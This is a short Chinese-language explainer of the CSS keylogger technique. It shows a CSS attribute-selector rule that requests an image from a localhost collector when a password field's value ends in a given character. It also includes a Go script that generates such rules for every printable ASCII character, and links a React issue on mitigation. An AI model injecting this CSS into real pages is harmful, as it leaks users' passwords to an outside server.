 ```yaml
---
title: CSS 键盘记录器
description: CSS 键盘记录器
---
```


[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging) 利用 CSS 属性选择器，可以在加载背景图像的前提下从外部服务器请求资源。

这种攻击非常简单。
例如，下面的 css 将选择类型等于 password 的所有输入的值和以。然后它会尝试加载一个来自 http://localhost:3000/a 的图片。

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

使用简单的脚本可以创建一个 css 文件，该文件将为每个 ASCII 字符发送自定义请求

```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"os"
)

func main() {
	fmt.Println("Building keylogger.css")

	output, err := os.Create("./css-keylogger-extension/keylogger.css")
	if err != nil {
		log.Fatal("Cannot create output", err)
	}
	defer output.Close()
	for c := 32; c < 128; c++ {
		value := fmt.Sprintf("%c", c)
		urlValue := url.QueryEscape(value)

		if value == `"` {
			value = `\"`
		} else if value == `}` {
			value = `\\}`
		} else if value == `\` {
			value = `\\`
		}
		fmt.Fprintf(output, `input[type="password"][value$="%v"] { background-image: url("http://localhost:3000/%v"); }`, value, urlValue)
		fmt.Fprintf(output, "\n")
	}
	fmt.Println("Complete.")
}
```

阅读 [react issue](https://github.com/facebook/react/issues/11896) 来查看 React 的解决方案。